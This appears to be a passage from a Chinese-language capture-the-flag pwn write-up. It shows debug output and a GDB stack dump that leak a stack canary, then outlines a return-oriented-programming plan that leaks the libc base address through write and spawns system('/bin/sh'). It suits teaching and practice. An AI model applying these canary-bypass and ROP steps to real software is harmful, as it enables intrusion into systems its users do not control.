 运行后可以得到Canary的值为：**0xbc2b48de6267a90a**

```shell
[DEBUG] Received 0xa5 bytes:
    00000000  4f 4b 2c 61  61 61 61 61  61 61 61 61  61 61 61 61  │OK,a│aaaa│aaaa│aaaa│
    00000010  61 61 61 61  61 61 61 61  61 61 61 61  61 61 61 61  │aaaa│aaaa│aaaa│aaaa│
    *
    00000080  61 61 61 61  61 61 61 61  61 61 61 0a  a9 67 62 de  │aaaa│aaaa│aaa·│·gb·│
    00000090  48 2b bc 70  cc 8b ca ff  7f 2c 6c 65  74 20 73 74  │H+·p│····│·,le│t st│
    000000a0  61 72 74 21  0a                                     │art!│·│
    000000a5
canary :0xbc2b48de6267a90a
```

通过GDB调试可以查看

```shell
pwndbg> stack 50
00:0000│ rax rsi rsp  0x7fffca8bcbd0 ◂— 0x6161616161616161 ('aaaaaaaa')
... ↓
11:0088│              0x7fffca8bcc58 ◂— 0xbc2b48de6267a90a
12:0090│ rbp          0x7fffca8bcc60 —▸ 0x7fffca8bcc70 —▸ 0x400790 ◂— push   r15
13:0098│              0x7fffca8bcc68 —▸ 0x40077e ◂— mov    eax, 0
14:00a0│              0x7fffca8bcc70 —▸ 0x400790 ◂— push   r15
15:00a8│              0x7fffca8bcc78 —▸ 0x7fd06a5f1830 (__libc_start_main+240)
```

我们的脚本是正确的，我们已经获取了绕过Canary，接下来就是普通的栈溢出题目了

可以覆盖返回地址为**pop pop pop pop ret**指令地址，返回时弹出**0x18**个填充字节和返回地址,返回到**buf+0x20**处，就避开了栈不可执行

在**buf+0x20**处构造**ROP**，通过write函数，先泄露**libc**基地址，返回到**start**

重新执行，输入使之执行**system('/bin/sh')**

需要用到的信息，包括**bss**段的地址、**main**函数地址、程序中已有函数的地址、**gadgets**地址